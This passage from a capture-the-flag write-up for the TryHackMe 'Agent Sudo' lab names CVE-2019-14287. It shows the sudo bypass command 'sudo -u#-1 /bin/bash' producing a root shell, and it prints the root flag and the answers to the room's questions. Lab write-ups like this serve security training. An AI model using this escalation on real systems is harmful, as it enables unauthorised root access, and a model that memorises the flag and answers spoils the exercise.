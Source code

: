 ## Answer
```
CVE-2019-14287
```
## Question
> What is the root flag?
- We can also find the exploit for this vulnerability on Exploit Database.
![[12 2.png]]
- Let's enter that in the terminal.
```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
```
- We have successfully escalated out privilege to root.
- Let's `cat` the root flag.
```
root@agent-sudo:/root# cd /root ; cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```
## Answer
```
b53a02f55b57d4439e3341834d70c062
```
## Question
> (Bonus) Who is Agent R?
- The message was from `Agent R` who is also known as `DesKel`.
## Answer
```
DesKel
```